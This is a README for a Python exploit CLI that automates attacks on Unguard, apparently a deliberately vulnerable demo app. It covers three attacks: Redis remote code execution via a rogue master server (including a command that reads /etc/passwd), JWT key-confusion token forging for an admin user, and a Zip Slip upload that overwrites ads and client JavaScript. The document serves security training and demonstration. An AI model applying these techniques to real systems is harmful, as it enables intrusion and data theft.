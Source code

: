 # Unguard Exploits CLI

Small command line application written in Python that automates different attack scenarios for the Unguard application.

## Installation

Create and activate the virtual environment for the `unguard-exploit` package

```
python -m venv venv
source ./venv/bin/activate
pip install -r requirements.txt
pip install --editable .
```

Check out what you can do now
 
```
ug-exploit --help
```

## General Usage

Make sure to login first

```
ug-exploit login <USERNAME>
```

Next, send your payloads. Make sure to specify the Redis instance that is reachable from the frontend.
Within Docker or K8S, this should be `unguard-redis:6379`.

```
ug-exploit redis --redis-host unguard-redis:6379 .\redis_payloads\hackedflag.txt
```

## Remote Code Execution (RCE)

For this exploit to work, you need to first start a Redis rogue server.

This exploit (for Redis 4.x and 5.x) was inspired by [Redis Post-Exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).
The code was taken and adapted from [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server).

The rogue server acts as a fake Redis master host and can upload a shared library to a real Redis.

### Usage

#### Kubernetes Deployment

If you run Unguard inside Kubernetes it may be that your Redis instance can not access the local rogue server.
For that, build and run the following temporary container in your cluster.
Make sure to use the K8S Docker environment as explained in the root README.

```
docker build --tag redis-rogue-server .\redis_payloads\redis-rogue-server
kubectl run redis-rogue-server --rm -i --tty --expose --port 6666 \
    --image-pull-policy=IfNotPresent --image redis-rogue-server
```

It might be the case that you don't see proper console output.

#### Local Deployment

Build the `module.so` from the already linked git submodule from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

```
git submodule init
git submodule update

cd ./redis_payloads/redis-rogue-server/RedisModules-ExecuteCommand

make
```

Move back to `./redis_payloads/redis-rogue-server` and start the server to listen on all interfaces on port `6666`

```
cd redis-rogue-server
python redis-rogue-server.py --lhost 0.0.0.0 --lport 6666
```

Inside the `./redis_payloads/rce.txt` change the `SLAVEOF` command so that it points to the ip address and port of your rogue server.
Then, run the RCE exploit, which makes our rogue server a slave and injects the `module.so` to `/tmp/exp.so`

```
ug-exploit redis --redis-host unguard-redis:6379 .\redis_payloads\rce.txt
```

You should see some output on your rogue server on success, and the exploit should already have created the file `/tmp/maliciousfile`

The compromised Redis instance can now execute arbitrary code like so

```
$ redis-cli
127.0.0.1:6379> system.exec cat${IFS}/etc/passwd
# will print /etc/passwd from Redis host
```

You don't need the rogue server anymore.

## JWT KeyConfusion Attack
For this exploit to work you need login via the login-command before.
Further details and a writeup about the vulnerability are available in the user-auth-service project.

### Usage
To forge a JWT token just provide the usertag which is a combination of username:userid.

!Attention! The username and userid have to match, otherwise the forged token will not have the right permissions.
```
$ ug-exploit forge-token admin:1
```

Now you can either use ug-exploit with the forged-user(logged in automatically) or use the forged token, which is printed to the command-line manually.

## Zip Slip
All you need for a Zip Slip attack is an archive with special renamed files. 
For example a file called ```../../file.exe``` will break out of the target folder (which is also known as ```path traversal```) and may overwrite existing files.  
The archives at ```/exploits/tool/zipslip_payloads``` already holds such path traversal filenames. Make sure to use ```exploit-ads.zip``` for demonstrating exploit!
Further details and a writeup about the vulnerability (and how to make such an archive) are available in under ```/exploit/writeups/zipslip```.

### Usage
For the exploit you need a user with the AD_MANAGER Role. Therefore, the user "admanager" will be created at unguard per default. Just log in as admanager:
```
ug-exploit login admanager  
```
Afterwards, you are permitted to use the ads-upload command for uploading arbitrary zip archives. With that you just have to upload the exploit-archive:
```
ug-exploit ads-upload --archive-path ./zipslip_payloads/exploit-ads.zip
```

The `exploit-ads.zip` archive will overwrite the two bird ads with images of pigeons and also overwrite a client-facing JavaScript file. 
The new JS file will cause an alert when accessing any ad.  
Due to Browser caching a hard refresh of the page may be necessary to see the new images

To revert the server back to the original version just upload the original-ads.zip:
```
ug-exploit ads-upload --archive-path ./zipslip_payloads/original-ads.zip
```


